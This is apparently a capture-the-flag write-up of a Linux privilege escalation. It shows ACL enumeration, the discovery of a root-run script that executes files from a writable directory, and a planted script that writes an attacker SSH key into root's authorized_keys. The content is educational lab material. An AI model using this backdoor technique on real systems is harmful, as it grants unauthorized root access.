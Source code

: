 # Privilege Escalation

## Local enumeration

Enumerated ACL rules:

```bash
[+] Files with ACLs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx     
user   michelle  -wx     
GROUP  root      rwx     
mask             rwx     
other            ---

[michelle@pit monitoring]$ getfacl -t -s -R -p /bin /etc /home /opt /root /sbin /usr /tmp 2>/dev/null
# file: /usr/local/monitoring
USER   root      rwx     
user   michelle  -wx     
GROUP  root      rwx     
mask             rwx     
other            ---
```

Enumerated if any script interacts with `/usr/local/monitoring`:

```bash
[michelle@pit tmp]$ grep "/usr/local/monitoring" -ri / 2>/dev/null
/usr/bin/monitor:for script in /usr/local/monitoring/check*sh
```

Enumerated the monitor script (discovered also from SNMP):

```bash
[michelle@pit tmp]$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

## Insecure directory permissions

Crafted a custom exploit and placed inside the monitoring folder:

```bash
[michelle@pit ~]$ vi check1.sh
echo "ssh-rsa AAAAB3NzaC1yc ... angM=" > /root/.ssh/authorized_keys

[michelle@pit ~]$ cp check1.sh /usr/local/monitoring/
```
